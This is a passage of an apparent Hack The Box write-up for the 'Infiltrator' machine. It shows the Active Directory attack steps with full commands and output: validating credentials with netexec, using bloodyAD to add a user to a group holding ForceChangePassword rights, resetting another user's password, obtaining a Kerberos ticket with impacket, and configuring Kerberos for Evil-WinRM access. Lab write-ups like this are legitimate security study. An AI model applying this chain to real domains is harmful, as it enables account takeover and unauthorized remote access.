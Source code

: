 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u 'e.rodriguez' -p 'WAT?watismypass!'
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\e.rodriguez:WAT?watismypass!
```

After we verified the new `password` of `E.rodriguez` we proceeded and added `E.rodriguez` to the `CHIEFS MARKETING` group which members had the permission of `ForceChangePassword` on `M.harris`. Having the `password` of `M.harris` would put us in the position of the `CanPSRemote` permission on `DC01.INFILTRATOR.HTB` which was our goal to achieve `foothold` on the box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodyAD --host 'dc01.infiltrator.htb' -d 'infiltrator.htb' -u 'e.rodriguez' -p 'WAT?watismypass!' add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING
```

With being member of the group `CHIEFS MARKETING` we then set a `new password` for `M.harris`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ net rpc password 'm.harris' 'WAT?watismypass!' -U 'e.rodriguez'%'WAT?watismypass!' -S 'dc01.infiltrator.htb'
```

With the new password set we grabbed a `Kerberos Ticket` for `M.harris`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-getTGT infiltrator.htb/m.harris:'WAT?watismypass!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in m.harris.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ export KRB5CCNAME=m.harris.ccache
```

Next we configured `krb5` to used the `realm` of `INFILTRATOR.HTB` which was crucial for our progress and especially to made `Evil-WinRM` work properly with `Kerberos`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install krb5-kdc
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = INFILTRATOR.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        ATHENA.MIT.EDU = {
```